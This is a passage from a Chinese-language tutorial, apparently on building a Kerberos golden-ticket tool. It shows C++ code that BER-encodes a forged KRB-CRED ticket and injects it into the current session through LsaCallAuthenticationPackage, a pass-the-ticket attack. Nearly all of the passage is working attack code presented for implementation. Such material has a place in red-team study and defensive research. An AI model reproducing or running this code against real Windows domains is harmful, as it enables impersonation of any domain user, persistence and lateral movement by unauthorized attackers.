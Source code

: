 最后，通过 `ber_flatten()` 函数，获取 `KRB_CRED` 结构经过 BER 编码规则编码的任意二进制数据并返回。

至此，所有构造工作都已完成，我们可以将构建好的 `KRB-CRED` 结构数据通过票据传递提交到内存中，如下所示。

```c++
if (isPtt)
{
    status = KerberosPTT(BerAppKrbCred->bv_val, BerAppKrbCred->bv_len);
    if (!status)
    {
        wprintf(L"[-] Failed to pass the kerberos ticket.\n");
        return status;
    }
    wprintf(L"   * Golden ticket for '%s @ %s' successfully submitted for current session.\n", lpUser, lpDomain);
}
```

Pass The Ticket
---------------

票据传递的主要功能函数是 `KerberosPTT()`，该函数定义如下。

```c++
BOOL KerberosPTT(PVOID encodedTicket, ULONG encodedTicketSize)
{
    BOOL status = FALSE;
    NTSTATUS packageStatus;
    PKERB_SUBMIT_TKT_REQUEST pKerbSumbitRequest;
    PVOID pKerbSumbitResponse;
    ULONG submitBufferLength, returnBufferLength;

    submitBufferLength = sizeof(KERB_SUBMIT_TKT_REQUEST) + encodedTicketSize;
    pKerbSumbitRequest = (PKERB_SUBMIT_TKT_REQUEST)LocalAlloc(LPTR, submitBufferLength);

    pKerbSumbitRequest->MessageType = KerbSubmitTicketMessage;
    pKerbSumbitRequest->KerbCredSize = encodedTicketSize;
    pKerbSumbitRequest->KerbCredOffset = sizeof(KERB_SUBMIT_TKT_REQUEST);
    RtlCopyMemory((PBYTE)pKerbSumbitRequest + pKerbSumbitRequest->KerbCredOffset, encodedTicket, encodedTicketSize);

    status = NT_SUCCESS(LsaCallAuthenticationPackage(hLSA, AuthenticationPackage, pKerbSumbitRequest, submitBufferLength, &pKerbSumbitResponse, &returnBufferLength, &packageStatus));
    if (!status || !NT_SUCCESS(packageStatus))
    {
        wprintf(L"[-] LsaCallAuthenticationPackage Error [%u].\n", GetLastError());
        return status;
    }

    wprintf(L"   * Submit ticket : OK.\n");
    LocalFree(pKerbSumbitRequest);
    return status;
}
```
